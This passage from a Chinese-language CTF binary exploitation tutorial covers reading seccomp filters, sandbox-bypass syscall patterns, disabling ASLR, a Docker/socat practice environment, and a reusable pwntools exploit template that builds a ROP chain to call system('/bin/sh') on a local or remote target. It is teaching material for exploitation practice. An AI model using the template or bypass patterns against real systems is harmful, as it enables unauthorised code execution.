# 典型输出（CTF题目中常见）：
#  line  CODE  JT   JF      K
# =================================
#  0000: 0x20 0x00 0x00 0x00000004  A = arch
#  0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
#  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
#  0003: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0007  # execve被禁
#  0004: 0x15 0x02 0x00 0x00000142  if (A == execveat) goto 0007
#  0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
#  0006: 0x06 0x00 0x00 0x00000000  return KILL

# 规则解读：禁止了execve和execveat，其他系统调用都允许
# 绕过思路：用open+read+write读取flag，而不是执行/bin/sh
```

**沙箱绕过典型模式：**

```python
# 模式1：open-read-write（当execve被禁时）
# 目标：open("flag", 0) → read(fd, buf, size) → write(1, buf, size)
# 系统调用号（x86_64）：open=2, read=0, write=1

# 模式2：openat+sendfile（更隐蔽）
# 目标：openat(AT_FDCWD, "flag", 0) → sendfile(1, fd, 0, 0x100)

# 模式3：execveat（如果只禁了execve，没禁execveat）
# 目标：execveat(AT_FDCWD, "/bin/sh", NULL, NULL, 0)
```

### 10.10 调试与测试技巧

#### 10.10.1 ASLR管理

```bash
# 查看当前ASLR状态
cat /proc/sys/kernel/randomize_va_space
# 0 = 关闭，1 = 部分，2 = 完全（默认）

# 关闭ASLR（调试时常用）
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# 恢复ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

# 单次关闭（不需要sudo改全局）
setarch $(uname -m) -R ./vuln
# 或在pwntools中：
p = process('./vuln', aslr=False)
```

#### 10.10.2 Docker调试环境

```dockerfile
# Dockerfile — 标准漏洞利用调试环境
FROM ubuntu:22.04

RUN apt-get update && apt-get install -y \
    gdb python3 python3-pip \
    libc6-dev-i386 gcc-multilib \
    socat netcat-openbsd \
    file vim \
    && rm -rf /var/lib/apt/lists/*

RUN pip3 install pwntools

WORKDIR /ctf
COPY ./vuln ./flag.txt ./

# socat暴露服务（模拟远程）
CMD socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./vuln
```

```bash
# 构建并运行
docker build -t ctf-env .
docker run -p 1337:1337 -it ctf-env

# exploit连接
p = remote('localhost', 1337)
```

#### 10.10.3 Exploit开发通用模板

将以上工具整合，形成一个可复用的exploit模板：

```python
#!/usr/bin/env python3
"""
通用Exploit模板 — 根据实际情况修改各部分
"""
from pwn import *

# ============ 配置区 ============
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'debug'

BINARY = './vuln'
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
REMOTE_HOST = 'challenge.example.com'
REMOTE_PORT = 1337

elf = ELF(BINARY)
libc = ELF(LIBC)

# ============ 连接区 ============
def conn():
    if args.REMOTE:
        return remote(REMOTE_HOST, REMOTE_PORT)
    elif args.GDB:
        return gdb.debug(BINARY, gdbscript='''
            break main
            continue
        ''')
    else:
        return process(BINARY)

# ============ 利用逻辑区 ============
def exploit():
    p = conn()

    # --- 阶段1：信息泄露 ---
    # （如有信息泄露漏洞，在此实现）
    # leak = ...
    # libc.address = leak - libc.symbols['printf']
    # elf.address = leak - elf.symbols['main']

    # --- 阶段2：构造payload ---
    offset = 72  # 用cyclic_find确定
    rop = ROP(elf)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    ret = rop.find_gadget(['ret'])[0]

    payload = b'A' * offset
    payload += p64(ret)                    # 栈对齐
    payload += p64(pop_rdi)
    payload += p64(next(elf.search(b'/bin/sh')))
    payload += p64(elf.plt['system'])

    # --- 阶段3：发送payload ---
    p.sendlineafter(b': ', payload)

    # --- 阶段4：交互 ---
    p.interactive()

if __name__ == '__main__':
    exploit()
```

运行方式：

```bash
python3 exploit.py              # 本地调试
python3 exploit.py GDB          # GDB调试
python3 exploit.py REMOTE       # 远程利用
```

#### 10.10.4 常见错误排查

| 现象 | 可能原因 | 排查方法 |
|-----|---------|---------|
| exploit本地成功远程失败 | libc版本不同、ASLR布局差异 | 用one_gadget换gadget，确认远程libc版本 |
| Segfault at unknown地址 | 偏移算错 | 用cyclic重新确认偏移 |
| one_gadget约束不满足 | 栈状态不满足要求 | GDB检查约束位置的值，调整栈布局或换gadget |
| 连接超时 | 网络问题或服务崩溃 | 检查服务是否crash，增加recv timeout |
| EOF during recv | 服务提前关闭 | 检查payload是否有坏字符（\n, \x00） |
| "Inconsistency detected by ld.so" | libc/ld不匹配 | 用patchelf确保ld和libc版本一致 |

### 10.11 工具选择决策树

面对一个二进制漏洞利用任务，如何选择工具组合：



### 10.12 本节小结

本节系统梳理了C/C++二进制漏洞利用的完整工具链，按工作流阶段组织：

| 阶段 | 核心工具 | 用途 |
|-----|---------|-----|
| **文件识别** | file, readelf, strings, nm | 确定架构、链接方式、符号信息 |
| **保护机制** | checksec | 判断可用的利用策略 |
| **静态分析** | objdump, Ghidra, Radare2 | 反汇编、反编译、定位漏洞 |
| **Gadget搜索** | ROPgadget, ropper | 构建ROP链所需的gadget |
| **动态调试** | GDB + pwndbg/GEF | 验证漏洞、调试exploit |
| **Exploit开发** | pwntools | 数据打包、进程交互、ROP构建 |
| **libc识别** | LibcSearcher, libc.rip | 确定远程libc版本和偏移 |
| **一键利用** | one_gadget | 简化拿shell的payload |
| **沙箱分析** | seccomp-tools | 绕过系统调用限制 |
| **环境管理** | Docker, patchelf | 构建可控的调试环境 |

工具只是手段，理解底层原理才是核心。第1-9节讲解的技术是"道"，本节的工具是"器"——道器合一，才能在面对真实漏洞时游刃有余。
